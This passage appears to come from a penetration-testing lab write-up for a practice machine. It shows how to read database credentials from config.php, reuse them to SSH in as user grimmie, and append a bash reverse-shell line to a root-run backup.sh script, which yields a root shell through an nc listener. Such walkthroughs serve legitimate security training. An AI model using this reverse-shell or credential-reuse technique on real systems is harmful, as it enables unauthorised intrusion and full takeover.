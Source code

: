 - outputting the contents of the `config.php` from above gives us:
```bash
$ cat /var/www/html/academy/admin/includes/config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
?>
```

- since `grimmie` reuses pws we know that `My_V3ryS3cur3_P4ss` is likely the same to ssh in as him. Sure enough...

```bash
┌──(l1ch㉿kali)-[~]
└─$ ssh grimmie@192.168.109.135
The authenticity of host '192.168.109.135 (192.168.109.135)' can't be established.
ED25519 key fingerprint is SHA256:eeNKTTakhvXyaWVPMDTB9+/4WEg6WKZwlUp0ATptgb0.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:2: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.109.135' (ED25519) to the list of known hosts.
grimmie@192.168.109.135's password: 
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Oct 18 18:34:36 2025 from 192.168.109.128
grimmie@academy:~$ ls
backup.sh

```

- because that backup.sh script likely runs as root we can try to get to root via reverse shell. Added this line to the `backup.sh` script:
```bash
bash -i >& /dev/tcp/192.168.109.128/1234 0>&1
```

```bash
┌──(l1ch㉿kali)-[~]
└─$ nc -nvlp 1234    
listening on [any] 1234 ...
connect to [192.168.109.128] from (UNKNOWN) [192.168.109.135] 58404
bash: cannot set terminal process group (837): Inappropriate ioctl for device
bash: no job control in this shell
root@academy:~#

```
